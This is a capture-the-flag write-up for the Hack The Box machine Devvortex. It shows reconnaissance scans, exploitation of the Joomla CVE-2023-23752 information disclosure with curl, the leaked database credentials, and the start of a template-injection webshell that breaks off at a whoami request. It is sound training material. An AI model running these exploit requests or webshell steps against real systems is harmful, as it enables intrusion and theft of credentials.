




## Initial enumeration

As usual we are provided with a single entry point knowing that is about a Linux based server reachable from the IP: 10.10.11.242.

I will fireup Rustscan and check for all the open ports on the TCP vector:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: DevVortex
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=11/29%OT=22%CT=%CU=40895%PV=Y%DS=2%DC=T%G=N%TM=6566EEE4%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST11NW7%O6=M53AST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
```

We can see only 2 services good! What about same but for UDP?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─#                                                                                                                                                                                                                                                          
└─# nmap -sU -top-ports 100  10.10.11.242          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-29 09:00 CET
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 15.67% done; ETC: 09:00 (0:00:11 remaining)
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 15.00% done; ETC: 09:00 (0:00:28 remaining)
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 16.33% done; ETC: 09:00 (0:00:31 remaining)
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 17.43% done; ETC: 09:00 (0:00:33 remaining)
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 19.78% done; ETC: 09:01 (0:00:53 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 20.89% done; ETC: 09:01 (0:00:53 remaining)
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.040s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc

Nmap done: 1 IP address (1 host up) scanned in 103.88 seconds
```

* * *

## SSH

As usual we can't do much about SSH without a proper set of credentials... We can come back as we have them but right know we can't do much about, we will not pursuit the bruteforce way in.

* * *

## HTTP

Checkin manually the website we can see that seems like "devvortex.htb" should be the real FQDN:


Next I will start by checking for possible hidden VHOSTS on the machine:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -fl 8                                                                                                                    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 137ms]
:: Progress: [19966/19966] :: Job [1/1] :: 840 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

Ok we have only one other subdomain(vhost) on the webserver. What about hidden webdirectories?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://devvortex.htb"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_devvortex.htb/_23-11-29_09-07-46.txt

Target: http://devvortex.htb/

[09:07:46] Starting:                                                                                                                                                                                                                                         
[09:07:47] 301 -  178B  - /js  ->  http://devvortex.htb/js/                 
[09:07:52] 200 -    7KB - /about.html                                       
[09:08:10] 200 -    9KB - /contact.html                                     
[09:08:10] 301 -  178B  - /css  ->  http://devvortex.htb/css/               
[09:08:21] 301 -  178B  - /images  ->  http://devvortex.htb/images/         
[09:08:21] 403 -  564B  - /images/                                          
[09:08:25] 403 -  564B  - /js/                                              
                                                                             
Task Completed
```

Ok not much hehe, before moving to the other VHOST I will check that contact function for possible exploits. EDIT: Seems like the function is not getting cached by burp so I will move forward and come back if needed/or not found.

* * *

## DEV.devvortex.htb

5Checking manually seems like can't find something from the HTML source code.. But what about hidden folders?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://dev.devvortex.htb"

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_dev.devvortex.htb/_23-11-29_09-17-54.txt

Target: http://dev.devvortex.htb/

[09:17:54] Starting:                                                                                                                                                                                                                                         
[09:17:56] 403 -  564B  - /%2e%2e;/test                                     
[09:17:56] 404 -   16B  - /php                                              
[09:18:27] 404 -   16B  - /adminphp                                         
[09:18:30] 403 -  564B  - /admin/.config                                    
[09:19:04] 301 -  178B  - /administrator  ->  http://dev.devvortex.htb/administrator/
[09:19:05] 200 -   31B  - /administrator/cache/                             
[09:19:05] 403 -  564B  - /administrator/includes/                          
[09:19:05] 301 -  178B  - /administrator/logs  ->  http://dev.devvortex.htb/administrator/logs/
[09:19:05] 200 -   31B  - /administrator/logs/
[09:19:06] 200 -   12KB - /administrator/                                   
[09:19:06] 200 -   12KB - /administrator/index.php
[09:19:13] 403 -  564B  - /admpar/.ftppass                                  
[09:19:13] 403 -  564B  - /admrev/.ftppass                                  
[09:19:17] 301 -  178B  - /api  ->  http://dev.devvortex.htb/api/           
[09:19:18] 404 -   54B  - /api/2/issue/createmeta                           
[09:19:18] 404 -   54B  - /api/_swagger_/
[09:19:18] 404 -   54B  - /api/
[09:19:18] 404 -   54B  - /api/2/explore/
[09:19:18] 404 -   54B  - /api/__swagger__/
[09:19:18] 404 -   54B  - /api/api
[09:19:18] 404 -   54B  - /api/batch
[09:19:18] 404 -   54B  - /api/apidocs/swagger.json
[09:19:18] 404 -   54B  - /api/api-docs
[09:19:18] 404 -   54B  - /api/apidocs
[09:19:18] 404 -   54B  - /api/application.wadl
[09:19:18] 404 -   54B  - /api/cask/graphql
[09:19:18] 404 -   54B  - /api/docs
[09:19:18] 404 -   54B  - /api/docs/
[09:19:18] 404 -   54B  - /api/config
[09:19:18] 404 -   54B  - /api/error_log
[09:19:18] 404 -   54B  - /api/index.html
[09:19:18] 404 -   54B  - /api/login.json
[09:19:18] 404 -   54B  - /api/profile
[09:19:18] 404 -   54B  - /api/package_search/v4/documentation
[09:19:19] 404 -   54B  - /api/jsonws
[09:19:19] 404 -   54B  - /api/snapshots
[09:19:19] 404 -   54B  - /api/proxy
[09:19:19] 404 -   54B  - /api/jsonws/invoke
[09:19:19] 404 -   54B  - /api/spec/swagger.json
[09:19:19] 404 -   54B  - /api/swagger
[09:19:19] 404 -   54B  - /api/swagger.yaml
[09:19:19] 404 -   54B  - /api/swagger-ui.html
[09:19:19] 404 -   54B  - /api/swagger.yml
[09:19:19] 404 -   54B  - /api/swagger/index.html
[09:19:19] 404 -   54B  - /api/swagger.json
[09:19:19] 404 -   54B  - /api/swagger/swagger
[09:19:19] 404 -   54B  - /api/swagger/ui/index
[09:19:19] 404 -   54B  - /api/swagger/static/index.html
[09:19:19] 404 -   54B  - /api/timelion/run
[09:19:19] 404 -   54B  - /api/v1
[09:19:19] 404 -   54B  - /api/v1/swagger.json
[09:19:19] 404 -   54B  - /api/v2
[09:19:19] 404 -   54B  - /api/v1/
[09:19:19] 404 -   54B  - /api/v1/swagger.yaml
[09:19:19] 404 -   54B  - /api/v2/swagger.json
[09:19:19] 404 -   54B  - /api/v2/
[09:19:19] 404 -   54B  - /api/v2/helpdesk/discover
[09:19:19] 404 -   54B  - /api/v2/swagger.yaml
[09:19:19] 404 -   54B  - /api/v3
[09:19:19] 404 -   54B  - /api/vendor/phpunit/phpunit/phpunit
[09:19:19] 404 -   54B  - /api/version                                      
[09:19:19] 404 -   54B  - /api/v4
[09:19:19] 404 -   54B  - /api/whoami
[09:19:36] 403 -  564B  - /bitrix/.settings                                 
[09:19:36] 403 -  564B  - /bitrix/.settings.bak
[09:19:36] 403 -  564B  - /bitrix/.settings.php.bak
[09:19:42] 301 -  178B  - /cache  ->  http://dev.devvortex.htb/cache/       
[09:19:42] 200 -   31B  - /cache/                                           
[09:19:42] 403 -    4KB - /cache/sql_error_latest.cgi                       
[09:19:51] 200 -   31B  - /cli/                                             
[09:19:55] 301 -  178B  - /components  ->  http://dev.devvortex.htb/components/
[09:19:55] 200 -   31B  - /components/
[09:20:00] 200 -    0B  - /configuration.php                                
[09:20:33] 403 -  564B  - /ext/.deps                                        
[09:20:52] 200 -    7KB - /htaccess.txt                                     
[09:20:57] 301 -  178B  - /images  ->  http://dev.devvortex.htb/images/     
[09:20:57] 200 -   31B  - /images/
[09:20:58] 403 -    4KB - /images/c99.php                                   
[09:20:58] 403 -    4KB - /images/Sym.php                                   
[09:20:59] 200 -   31B  - /includes/                                        
[09:20:59] 301 -  178B  - /includes  ->  http://dev.devvortex.htb/includes/
[09:21:13] 301 -  178B  - /language  ->  http://dev.devvortex.htb/language/ 
[09:21:13] 200 -   31B  - /layouts/                                         
[09:21:14] 403 -  564B  - /lib/flex/uploader/.actionScriptProperties        
[09:21:14] 403 -  564B  - /lib/flex/uploader/.flexProperties
[09:21:14] 403 -  564B  - /lib/flex/uploader/.project
[09:21:14] 403 -  564B  - /lib/flex/uploader/.settings
[09:21:14] 403 -  564B  - /lib/flex/varien/.actionScriptProperties
[09:21:14] 403 -  564B  - /lib/flex/varien/.flexLibProperties
[09:21:14] 403 -  564B  - /lib/flex/varien/.project                         
[09:21:14] 403 -  564B  - /lib/flex/varien/.settings                        
[09:21:14] 301 -  178B  - /libraries  ->  http://dev.devvortex.htb/libraries/
[09:21:14] 200 -   31B  - /libraries/
[09:21:15] 200 -   18KB - /LICENSE.txt                                      
[09:21:25] 403 -  564B  - /mailer/.env                                      
[09:21:30] 301 -  178B  - /media  ->  http://dev.devvortex.htb/media/       
[09:21:30] 200 -   31B  - /media/                                           
[09:21:38] 301 -  178B  - /modules  ->  http://dev.devvortex.htb/modules/   
[09:21:38] 200 -   31B  - /modules/                                         
[09:21:41] 404 -   16B  - /myadminphp                                       
[09:22:12] 301 -  178B  - /plugins  ->  http://dev.devvortex.htb/plugins/   
[09:22:12] 200 -   31B  - /plugins/
[09:22:24] 200 -    5KB - /README.txt                                       
[09:22:28] 403 -  564B  - /resources/.arch-internal-preview.css             
[09:22:28] 403 -  564B  - /resources/sass/.sass-cache/                      
[09:22:30] 200 -  764B  - /robots.txt                                       
[09:22:36] 404 -    4KB - /secure/ConfigurePortalPages!default.jspa?view=popular
[09:23:06] 301 -  178B  - /templates  ->  http://dev.devvortex.htb/templates/
[09:23:06] 200 -   31B  - /templates/
[09:23:06] 200 -   31B  - /templates/index.html                             
[09:23:07] 200 -    0B  - /templates/system/                                
[09:23:11] 301 -  178B  - /tmp  ->  http://dev.devvortex.htb/tmp/           
[09:23:11] 200 -   31B  - /tmp/
[09:23:11] 403 -    4KB - /tmp/2.php                                        
[09:23:12] 403 -    4KB - /tmp/admin.php                                    
[09:23:12] 403 -    4KB - /tmp/changeall.php                                
[09:23:12] 403 -    4KB - /tmp/d.php
[09:23:12] 403 -    4KB - /tmp/cgi.pl
[09:23:12] 403 -    4KB - /tmp/Cgishell.pl
[09:23:12] 403 -    4KB - /tmp/d0maine.php
[09:23:12] 403 -    4KB - /tmp/cpn.php
[09:23:12] 403 -    4KB - /tmp/domaine.pl
[09:23:12] 403 -    4KB - /tmp/dz1.php
[09:23:12] 403 -    4KB - /tmp/dz.php
[09:23:12] 403 -    4KB - /tmp/domaine.php
[09:23:12] 403 -    4KB - /tmp/index.php                                    
[09:23:12] 403 -    4KB - /tmp/killer.php
[09:23:12] 403 -    4KB - /tmp/madspotshell.php
[09:23:12] 403 -    4KB - /tmp/L3b.php
[09:23:13] 403 -    4KB - /tmp/root.php                                     
[09:23:13] 403 -    4KB - /tmp/sql.php                                      
[09:23:13] 403 -    4KB - /tmp/Sym.php
[09:23:13] 403 -    4KB - /tmp/upload.php
[09:23:13] 403 -    4KB - /tmp/priv8.php
[09:23:13] 403 -    4KB - /tmp/up.php                                       
[09:23:13] 403 -    4KB - /tmp/user.php
[09:23:13] 403 -    4KB - /tmp/xd.php
[09:23:13] 403 -    4KB - /tmp/uploads.php
[09:23:13] 403 -    4KB - /tmp/vaga.php
[09:23:13] 403 -    4KB - /tmp/whmcs.php
[09:23:14] 403 -  564B  - /twitter/.env                                     
[09:23:34] 200 -    3KB - /web.config.txt                                   
                                                                             
Task Completed
```

Ok that's a huge list but we have identified it as a Joomla webserver.



Checking the robots.txt we can see some web directories that are blocked from indexing but none of them seem interesting.

```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

I will try to ingace Joomscan to check if we can maybe get something more?

```
____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://dev.devvortex.htb/ ...


[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.6

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://dev.devvortex.htb/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://dev.devvortex.htb/robots.txt 

Interesting path found from robots.txt
http://dev.devvortex.htb/joomla/administrator/
http://dev.devvortex.htb/administrator/
http://dev.devvortex.htb/api/
http://dev.devvortex.htb/bin/
http://dev.devvortex.htb/cache/
http://dev.devvortex.htb/cli/
http://dev.devvortex.htb/components/
http://dev.devvortex.htb/includes/
http://dev.devvortex.htb/installation/
http://dev.devvortex.htb/language/
http://dev.devvortex.htb/layouts/
http://dev.devvortex.htb/libraries/
http://dev.devvortex.htb/logs/
http://dev.devvortex.htb/modules/
http://dev.devvortex.htb/plugins/
http://dev.devvortex.htb/tmp/


[+] Finding common backup files name
[++] Backup files are not found                                                                                                                 

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found
```

The tool is still running but I think I found our way in, more specifically we know that Joomla is 4.2.6 and looking around we can find an article about 2 different CVE that covers up to 4.2.7: https://vulncheck.com/blog/joomla-for-rce

Testing the **CVE-2023-23752** we can perform a authentication bypass and uncover a username/password used by the DB in the backend:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
*   Trying 10.10.11.242:80...
* Connected to dev.devvortex.htb (10.10.11.242) port 80
> GET /api/index.php/v1/config/application?public=true HTTP/1.1
> Host: dev.devvortex.htb
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 29 Nov 2023 08:33:47 GMT
< Content-Type: application/vnd.api+json; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Wed, 29 Nov 2023 08:33:47 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< 
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─#
```

Nice we have uncovered Lewis credentials but what about the other **CVE-2023-23752** where in same way we can this time unveil the credentials of the Superuser=Admin on Joomla istance!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# curl -v http://dev.devvortex.htb/api/index.php/v1/users?public=true
*   Trying 10.10.11.242:80...
* Connected to dev.devvortex.htb (10.10.11.242) port 80
> GET /api/index.php/v1/users?public=true HTTP/1.1
> Host: dev.devvortex.htb
> User-Agent: curl/8.4.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Server: nginx/1.18.0 (Ubuntu)
< Date: Wed, 29 Nov 2023 08:38:16 GMT
< Content-Type: application/vnd.api+json; charset=utf-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< x-frame-options: SAMEORIGIN
< referrer-policy: strict-origin-when-cross-origin
< cross-origin-opener-policy: same-origin
< X-Powered-By: JoomlaAPI/1.0
< Expires: Wed, 17 Aug 2005 00:00:00 GMT
< Last-Modified: Wed, 29 Nov 2023 08:38:16 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< 
* Connection #0 to host dev.devvortex.htb left intact
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"649","attributes":{"id":649,"name":"lewis","username":"lewis","email":"lewis@devvortex.htb","block":0,"sendEmail":1,"registerDate":"2023-09-25 16:44:24","lastvisitDate":"2023-10-29 16:18:50","lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}},{"type":"users","id":"650","attributes":{"id":650,"name":"logan paul","username":"logan","email":"logan@devvortex.htb","block":0,"sendEmail":0,"registerDate":"2023-09-26 19:15:42","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Registered"}}],"meta":{"total-pages":1}}
```

But this last one only gives you indication about usernames, membership and email assigned to those users which at the end of the day you must bruteforce passwords!

* * *

## User.txt

Now I suggest to try to use Lewis credentials to login directly via SSH:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ssh lewis@devvortex.htb
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:6: [hashed name]
    ~/.ssh/known_hosts:33: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb' (ED25519) to the list of known hosts.
lewis@devvortex.htb's password: 
Permission denied, please try again.
lewis@devvortex.htb's password: 


┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ssh logan@devvortex.htb
logan@devvortex.htb's password: 
Permission denied, please try again.
logan@devvortex.htb's password:
```

They are not working which means we have to get a rce from Joomla instead?



Nice indeed lewis is the super user which should be enough to plant a RCE and get us a revshell via a PHP revshell! I will inject a php exec code into the default template, specifically into error.php:



Which means if we run something similar we should be able to get a webshell output!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# curl -v http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=whoami
